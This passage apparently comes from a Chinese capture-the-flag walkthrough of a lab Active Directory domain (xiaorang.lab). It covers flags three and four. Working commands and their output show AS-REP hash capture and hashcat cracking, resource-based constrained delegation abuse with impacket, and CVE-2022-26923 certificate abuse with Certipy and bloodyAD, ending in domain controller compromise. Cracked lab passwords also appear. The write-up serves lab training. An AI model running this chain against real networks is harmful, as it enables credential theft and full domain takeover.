[-] User chenjianhua@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
拿到了两个用户的TGT票据
$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:91e6b6e8eca3c81e9ebc041af6fbe6c9$b1de5c61b73c01359b467a40d0ddf8819234b3f383462eec85dc510eb1c3af9ce6718c33a510a131874bea7e2f2651d7d3de029cdb2c6b6e762bebda4756af475bd4c6c06db8ba3944b1608a5e9e7c2bb312db138301a28abc71b8d6cff4e4dfca8e31746d8b1856fc3e3234526bf2b183b79b6b21da685d3db4466505164f8e8e1a5290cabb7ba03c87406fa6eb4c24328f0e40af722bddffb95dff6fb23f1efeb23d0c491d1462c09e952c2783ca3f9ff8bc3b1b8c065df2e7e179801242b1e1643d639b4c2a56ca7fda7df124689b4af63b6ddc30a07299cac1a8b45fe23a3e0ec5078c16ae75880f9ae8
$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:9159559ba318af794bad4ac369b60a1e$2dd93a8a64ff9e932b1707c3e2fbdd379ced93ffb975f5d7dd52b728e0f7dd0c0ea0cc7ffb924897a1a6c1bee062e1b2fb25431f45f4b44ad73a390269d5c5df8b74591b07db87cb22d0de7c5540996343304336da5b11c412b1613b8b2b59c774ce1c6cc99556b0c63484533be7790a058c994b3c9be8fdc780ff9ab5a1e0a0f2c560665dd221335baadb5eca7577290085079fe8cd9da81d7bcaae840133efad3de3698e4e43a617d0d8d9fcb981f9184f2ac639a65640774d409453ab4754d8107d89c12c1a41acf1b23c9bbcc8ec35743b746936a8d34ea3c031b274058826d48ee5ae7f954cb01770ac
用hashcat和kali自带的字典 rockyou 爆破一下
hashcat -m 18200 --force -a 0 '$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:91e6b6e8eca3c81e9ebc041af6fbe6c9$b1de5c61b73c01359b467a40d0ddf8819234b3f383462eec85dc510eb1c3af9ce6718c33a510a131874bea7e2f2651d7d3de029cdb2c6b6e762bebda4756af475bd4c6c06db8ba3944b1608a5e9e7c2bb312db138301a28abc71b8d6cff4e4dfca8e31746d8b1856fc3e3234526bf2b183b79b6b21da685d3db4466505164f8e8e1a5290cabb7ba03c87406fa6eb4c24328f0e40af722bddffb95dff6fb23f1efeb23d0c491d1462c09e952c2783ca3f9ff8bc3b1b8c065df2e7e179801242b1e1643d639b4c2a56ca7fda7df124689b4af63b6ddc30a07299cac1a8b45fe23a3e0ec5078c16ae75880f9ae8' ./rockyou.txt
hashcat -m 18200 --force -a 0 '$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:9159559ba318af794bad4ac369b60a1e$2dd93a8a64ff9e932b1707c3e2fbdd379ced93ffb975f5d7dd52b728e0f7dd0c0ea0cc7ffb924897a1a6c1bee062e1b2fb25431f45f4b44ad73a390269d5c5df8b74591b07db87cb22d0de7c5540996343304336da5b11c412b1613b8b2b59c774ce1c6cc99556b0c63484533be7790a058c994b3c9be8fdc780ff9ab5a1e0a0f2c560665dd221335baadb5eca7577290085079fe8cd9da81d7bcaae840133efad3de3698e4e43a617d0d8d9fcb981f9184f2ac639a65640774d409453ab4754d8107d89c12c1a41acf1b23c9bbcc8ec35743b746936a8d34ea3c031b274058826d48ee5ae7f954cb01770ac' ./rockyou.txt
得到明文密码


lixiuying@xiaorang.lab/winniethepooh
huachunmei@xiaorang.lab/1qaz2wsx
尝试一下rdp连接172.22.15.13

发现没有权限
那我们可以尝试拿这两个账户去连其他的机子
成功登上 172.22.15.35
先用bloodhound信息收集一手
proxychains4 bloodhound-python -u lixiuying -p winniethepooh -d xiaorang.lab -c all -ns 172.22.15.13 --zip --dns-tcp

可以看到LIXIUYING@XIAORANG.LAB 对 XR-0687.XIAORANG.LAB 有 GenericWrite 的权限
可以通过修改目标的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性（配置 RBCD）获取目标 SYSTEM 权限
添加一个机器用户
proxychains4 -q impacket-addcomputer -computer-name 'xrntkk$' -computer-pass 'Abc123456' -dc-host XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 "xiaorang.lab/lixiuying:winniethepooh"

配置RDBC
proxychains4 -q impacket-rbcd xiaorang.lab/lixiuying:winniethepooh -action write -delegate-from "xrntkk$" -delegate-to "XR-0687$" -dc-ip 172.22.15.13

使用 impacket工具的getST执行基于资源的约束性委派工具并获取拥有访问XR-0687机器上的GIFS服务的高权限票据
proxychains4 -q impacket-getST xiaorang.lab/xrntkk$:'Abc123456' -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator -dc-ip 172.22.15.13
导入票据
export KRB5CCNAME=Administrator@cifs_XR-0687.xiaorang.lab@XIAORANG.LAB.ccache
接下来psexec连主机就好了
proxychains4 -q impacket-psexec 'xiaorang.lab/administrator@XR-0687.xiaorang.lab' -target-ip 172.22.15.35 -codec gbk -no-pass -k

flag3
C:\Users\Administrator\flag> type flag03.txt
__ _ __ ____
/ _| |__ _ __ _ / \__ /
| _| / _` / _` | () |_ \
|_| |_\__,_\__, |\__/___/
|___/
flag03: flag{40c21602-c68d-4667-892f-bbb24d452eb4}
FLAG4-CVE-2022-26923

Certipy-ad:ly4k/Certipy: Tool for Active Directory Certificate Services enumeration and abuse
使用certipy-ad工具创建一个账户，并设置dNSHostName
┌──(root㉿Xrntkk-Laptop)-[/home/xrntkk]
└─# proxychains4 certipy account create -u lixiuying@xiaorang.lab -p winniethepooh -dc-ip 172.22.15.13 -user xrntkk3 -pa
ss Abc123456 -dns 'XR-DC01.xiaorang.lab'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:636 ... OK
[*] Creating new account:
sAMAccountName : xrntkk3$
unicodePwd : Abc123456
userAccountControl : 4096
servicePrincipalName : HOST/xrntkk3
RestrictedKrbHost/xrntkk3
dnsHostName : XR-DC01.xiaorang.lab
[*] Successfully created account 'xrntkk3$' with password 'Abc123456'
用创建的账户向XR-CA请求证书
┌──(root㉿Xrntkk-Laptop)-[/home/xrntkk]
└─# proxychains4 certipy req -u xrntkk3\$@xiaorang.lab -p Abc123456 -target 172.22.15.18 -ca "xiaorang-XR-CA-CA" -templa
te Machine
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.18:445 ... OK
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with DNS Host Name 'XR-DC01.xiaorang.lab'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'xr-dc01.pfx'
向 KDC 请求域控的 TGT
┌──(root㉿Xrntkk-Laptop)-[/home/xrntkk]
└─# proxychains4 certipy auth -pfx xr-dc01.pfx -dc-ip 172.22.15.13 -debug
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Using principal: xr-dc01$@xiaorang.lab
[*] Trying to get TGT...
[proxychains] Strict chain ... 113.45.175.138:6666 ... 172.22.15.13:88 ... OK
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
发现报错了，遇到 KDC_ERR_PADATA_TYPE_NOSUPP 错误，显示 KDC 不支持 PADATA 类型（预认证数据）, Kerberos 预身份验证失败
需要尝试其他利用证书的方法
这里可以使用bloodyAD利用证书去配置rdbc
CravateRouge/bloodyAD: BloodyAD is an Active Directory Privilege Escalation Framework
把证书文件转换为 PEM 格式
certipy cert -pfx xr-dc01.pfx > xr-dc01.pem
配置rdbc
┌──(root㉿Xrntkk-Laptop)-[/home/xrntkk]
└─# proxychains4 -q bloodyAD -d xiaorang.lab -u 'xrntkk3$' -c ':xr-dc01.pem' --host 172.22.15.13 --secure add rbcd 'xr-d
c01$' 'xrntkk3$'
[!] No security descriptor has been returned, a new one will be created
[+] xrntkk3$ can now impersonate users on xr-dc01$ via S4U2Proxy
接下来就可以申请票据了
proxychains4 -q impacket-getST 'xiaorang.lab/xrntkk3$:Abc123456' -spn LDAP/xr-dc01.xiaorang.lab -impersonate Administrator -dc-ip 172.22.15.13
导入票据
export KRB5CCNAME=Administrator@LDAP_xr-dc01.xiaorang.lab@XIAORANG.LAB.ccache
psexec连
proxychains4 -q impacket-psexec 'xiaorang.lab/administrator@XR-DC01.xiaorang.lab' -target-ip 172.22.15.13 -codec gbk -no-pass -k
flag04
c:\Users\Administrator\flag> type flag04.txt
:::===== ::: :::==== :::===== :::==== ::: ===
::: ::: ::: === ::: ::: === ::: ===
====== === ======== === ===== === === ========
=== === === === === === === === ===
=== ======== === === ======= ====== ===
flag04: flag{bcc6c72d-ae14-41bb-9d05-1655c6d7e6b2}
这个还有一些其他的打法，后面再补
whoami师傅关于PKINIT 不起作用的证书利用方法的文章：
Pass The Certificate when PKINIT Padata Type is NOSUPP | WHOAMI
后渗透部分基本上是跟着h0ny师傅的博客打的，太强了。
参考文章